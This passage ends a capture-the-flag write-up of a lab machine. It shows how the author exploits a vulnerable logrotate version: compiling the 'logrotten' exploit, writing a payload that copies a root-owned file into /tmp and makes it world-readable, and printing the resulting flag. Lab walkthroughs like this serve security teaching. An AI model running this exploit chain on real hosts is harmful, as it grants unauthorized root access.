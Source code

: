     :::text
    /usr/sbin/logrotate -f /root/log.cfg
    /bin/sh /root/log.sh
    sleep 5

## logrotate

We look at the logrotate version.

    :::text
    reader@book:~$ logrotate --version
    logrotate 3.11.0

This version is [vulnerable to a privilege escalation](https://packetstormsecurity.com/files/154743/Logrotate-3.15.1-Privilege-Escalation.html).

We copy the C exploit using SSH, compile it, create a specific payload file and run the exploit on
the access.log file (in debug mode).

    :::text
    $ gcc -o logrotten logrotten.c
    $ cat payloadfile
    cp /root/root.txt /tmp/systemd-timesyncd/ ; chmod 777 /tmp/systemd-timesyncd/root.txt
    $ ./logrotten -p ./payloadfile /home/reader/backups/access.log -d

In another terminal we put data inside the access.log file.

    :::text
    reader@book:~$ python -c 'print "a"*10000'> backups/access.log

Then we wait a bit for the file to be created and we can display our `root.txt`.

    :::text
    $ cat root.txt 
    84da92adf998a1c7231297f70dd89714

# Wrapping up

This box was really interesting as the web vulnerably can be found in real
websites. The privilege escalation is quit simple at it just implies to exploit
a known vulnerability.

